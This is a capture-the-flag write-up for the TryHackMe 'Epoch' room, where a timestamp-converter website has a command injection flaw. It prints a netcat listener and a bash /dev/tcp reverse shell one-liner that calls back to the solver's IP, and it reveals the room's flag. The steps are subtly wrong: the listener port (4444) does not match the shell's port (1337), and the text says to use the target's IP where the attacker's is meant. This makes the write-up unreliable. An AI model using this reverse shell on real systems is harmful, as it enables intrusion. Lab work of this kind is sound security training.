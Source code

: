 # EPOCH - TRYHACKME WRITEUP

![image.png](image.png)

BEFORE GOING TO ROOM LET’S UNDERSTAND

### Q. WHAT IS EPOCH?

> **Epoch** (in computing) refers to a **fixed point in time** used as the reference for all date/time calculations.
> 

In most systems, especially Unix/Linux, the **epoch** is:

📅 **January 1, 1970, 00:00:00 UTC**

🕰 All time is stored as the **number of seconds** that have passed since that moment.

### ROOM DESCRIPTION :

Be honest, you have always wanted an online tool that could help you convert UNIX dates and timestamps! Wait... it doesn't need to be online, you say? Are you telling me there is a command-line Linux program that can already do the same thing? Well, of course, we already knew that! Our website actually just passes your input right along to that command-line program!

Access this challenge by deploying both the vulnerable machine by pressing the green "Start Machine" button located within this task, and the TryHackMe AttackBox by pressing the  "Start AttackBox" button located at the top-right of the page.

Navigate to the following URL using the AttackBox: <YOUR_TARGET_MACHINE_IP>

### LET’S START

IN THIS ROOM THE WEBSITE GIVEN IS VULNERABLE AND WE HAVE TO FIND OUR FLAG.

THIS ROOM IS RELATED TO **COMMAND INJECTION** VULNERABLITY.

WE HAVE PAGE LIKE THIS

![image.png](image%201.png)

SO WHAT WE ARE GOING TO DO HERE IS GONNA GET A **REVERSE SHELL** ON OUR MACHINE.

WE NEED TO START LISTENING VIA NC ON PORT 4444 ON OUR MACHINE TO GET A **REVERSE SHELL**

```bash
nc -nvlp 4444
```

AND BASH REVERSE SHELL TO GET A REVERSE SHELL

```bash
/bin/bash -i >& /dev/tcp/10.10.17.1/1337 0>&1
```

NOTE: WE NEED TO USE OUR TARGET MACHINE IP ADDRESS AND OUR PORT NUMBER THAT WE ARE LISTENING VIA NC

AFTER GETTING A REVERSE SHELL.

WE CAN GET OUR FLAG IN ENVIRONMENT VARIABLES

WE CAN EXECUTE **printenv** 

AND WE WILL GET OUR FLAG

### flag{7da6c7debd40bd611560c13d8149b647}

**CONCLUSION** : IN THIS ROOM WE SOLVED THE COMMAND INJECTION VULNERABILITIES ON A VULNERABLE WEBSITE.